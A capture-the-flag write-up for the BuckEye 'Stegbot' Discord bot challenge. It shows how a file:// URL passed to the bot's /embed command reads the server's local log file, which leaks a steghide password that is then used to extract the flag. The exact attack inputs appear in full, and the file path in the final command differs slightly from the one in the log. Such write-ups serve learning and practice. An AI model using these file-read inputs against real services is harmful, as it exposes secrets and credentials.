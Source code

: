 +++
title = "BuckEye: Stegbot"
date = "2021-10-23"
aliases = ["StegBot"]
[ author ]
  name = "Lucas Sass Rósinberg"
+++

# Stegbot

## Description:

Everybody loves steghide, so I made StegBot#2632 so that you can use it from Discord! Make sure to join our Discord server if you haven't already, and DM /info to StegBot to get started.

Steghide: https://github.com/perfectblue/ctf-writeups/tree/master/2020/csaw-quals-2020/take-it-easy#step-3
Discord server: https://discord.gg/WyUcFqrDjP
Stegbot source code: https://github.com/qxxxb/StegBot (from writing /info to the bot)

## Solution

The flag is stored in an environment variable called "FLAG"

The flag is embedded in bof.jpg at the bottom of the source code (happens once every time the bot restarts):

```typescript=
stegEmbed('bof.jpg', FLAG, randomString())
```

If we can get a hold of this output image and the password used to embed the flag, we can use the bot's /extract command to get the flag

Having a closer look at the stegEmbed function, we can see that the output path and the stegHide password are both logged:

```typescript=
logger.info({ imagePath, outputPath, password })
```

The log file is located at ./app.log:

```typescript=
const logger = pino(pino.destination('app.log'))
```

Curl allows getting local files with the syntax `curl file://<path>`

Looking at the source code, we can use the /embed bot command without a message to return an arbitrary file:

```typescript=
async function commandEmbed (interaction: CommandInteraction) {
  const imageURL = interaction.options.getString('image_url')!
  const imagePath = path.join(TMP_DIR, `${randomString()}.jpg`)
  downloadFile(imageURL, imagePath)

  const message = interaction.options.getString('message')
  const password = interaction.options.getString('password')

  if (!message) {
    await interaction.reply({
      content: "No message provided, so here's the blank image",
      files: [imagePath],
      ephemeral: true
    })
    return
  }
```

Looking at the jail.cfg file in the source code, we see that the app directory is mounted at /app inside the docker virtual machine

Now we can try to get a hold of the log file with the /embed command:
`/embed image_url:file:///app/app.log`
...
Success!
![](https://i.imgur.com/GWqmFH5.png)

Opening this file in `less`, we can see that the first entry has the following info:

```
{"level":30,"time":1634959870125,"pid":1,"hostname":"NSJAIL","imagePath":"bof.jpg","outputPath":"/tmp/images/a7fba042185aa216aaf2f87763b65724.jpg","password":"e3cde4ceae826098ba87716de396e028"}
```

Now we can use the /extract command with the info from the log:
`/extract image_url:file:///tmp/images/7fba042185aa216aaf2f87763b65724.jpg password: e3cde4ceae826098ba87716de396e028`

And then we get the flag:
![](https://i.imgur.com/AaVQSaa.png)
